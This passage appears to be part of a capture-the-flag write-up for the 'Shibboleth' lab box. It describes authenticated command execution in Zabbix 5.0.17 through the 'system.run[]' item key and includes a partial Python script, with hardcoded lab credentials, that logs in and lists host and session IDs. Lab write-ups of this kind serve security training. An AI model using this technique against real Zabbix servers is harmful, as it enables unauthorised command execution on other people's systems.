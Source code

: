 Create new item and set payload in key option and click on "test" and then "get value and test" to execute command immediately

![](screenshots/zabbix-rce.png)


**Here is a simple python script to automate this process**
```py
#!/usr/bin/python3

"""
Application: zabbix 5.0.17
Description: zabbix authenticated RCE through "system.run[]"
"""

import re
import sys
import requests as r
import json

# print("/** Author: x00tex **/")
url = 'http://zabbix.shibboleth.htb'
username = 'Administrator'
password = 'ilovepumkinpie1'

s = r.session()
login = s.post(f'{url}/index.php',
               data={"name": username, "password": password, "autologin": 1, "enter": "Sign in"})


class Get_host:
    def __init__(self):
        rspn = s.get(f'{url}/hosts.php')
        self.hostid = re.findall(r'hostid=(.*?)">(.*?)</a>', rspn.text)
        self.sid = re.findall(r'sid=(.*?)\'', rspn.text)


def get_values():
    return Get_host()


t = get_values()
print("[+] All Hosts")
for i in t.hostid:
    print(f"{i[1]}:{i[0]}")

```